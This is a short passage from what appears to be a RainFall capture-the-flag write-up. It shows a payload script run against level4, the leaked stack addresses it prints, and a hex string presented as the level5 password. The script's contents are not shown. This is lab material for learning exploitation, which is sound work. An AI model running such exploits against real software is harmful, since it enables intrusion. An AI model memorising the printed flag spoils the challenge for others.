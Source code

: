 Execute the payload.sh file to print level5 password:

```sh
level4@RainFall:~$ /tmp/payload.sh 
AAAAb7ff26b0bffff764b7fd0ff400bffff728804848dbffff520200b7fd1ac0

[...] # After a few thousands spaces

414141
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
